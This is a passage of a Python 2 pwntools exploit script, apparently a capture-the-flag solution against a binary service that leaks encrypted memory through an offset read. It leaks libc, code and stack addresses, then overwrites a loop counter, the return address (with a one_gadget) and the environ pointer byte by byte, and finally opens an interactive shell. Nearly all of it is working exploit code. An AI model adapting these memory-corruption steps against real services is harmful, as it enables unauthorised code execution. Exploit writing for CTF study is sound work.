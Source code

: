 ```python=
  print("libc = {}".format(hex(libc)))
  e(-928,15) # leak code
  sec = r.recv(16)
  aes = AES.new(key, AES.MODE_CBC, "\x00"*16)
  data = aes.decrypt(sec)
  print repr(data)
  code = u64(data[8:].ljust(8,"\x00")) - 8 + 0x3A0
  print("code = {}".format(hex(code)))
  env_ptr = libc + 0x3ee098
  e(env_ptr - code, 15) # leak stack
  sec = r.recv(16)
  aes = AES.new(key, AES.MODE_CBC, "\x00"*16)
  data = aes.decrypt(sec)
  print repr(data)
  #stack = u64(data[:8].ljust(8,"\x00")) # local
  stack = u64(data[:8].ljust(8,"\x00")) + 8  # remote
  print("stack = {}".format(hex(stack)))
  wanto = stack - 0x130
  e(wanto-code,1) # overwrite loop i (bypass 32 round)

  magic = p64(libc + 0x4f2c5)

  for i in xrange(8): # modify retrun address to one_gadget
    print i
    wanto = stack - 0xf8 + i
    e(wanto-code,1)
    sec = r.recv(16)
    j=0
    while 1:
      aes = AES.new(key, AES.MODE_CBC, "\x00"*16)
      sec = aes.encrypt(sec)
      j+=1
      if sec[0] == magic[i]:
        for k in xrange(j):
          r.sendline(str(wanto-code))
          r.sendline(str(1))
        for k in xrange(j):
          r.recvuntil("ffset:")
        break
  for i in xrange(8): # modify envrion ptr to null
    print i
    wanto = env_ptr + i
    e(wanto-code,1)
    sec = r.recv(16)
    j=0
    while 1:
      aes = AES.new(key, AES.MODE_CBC, "\x00"*16)
      sec = aes.encrypt(sec)
      j+=1
      if sec[0] == '\x00':
        for k in xrange(j):
          r.sendline(str(wanto-code))
          r.sendline(str(1))
        for k in xrange(j):
          r.recvuntil("ffset:")
        break
  r.sendline("l") # exit main
  r.sendline("ls") # get shell
  r.interactive()

```
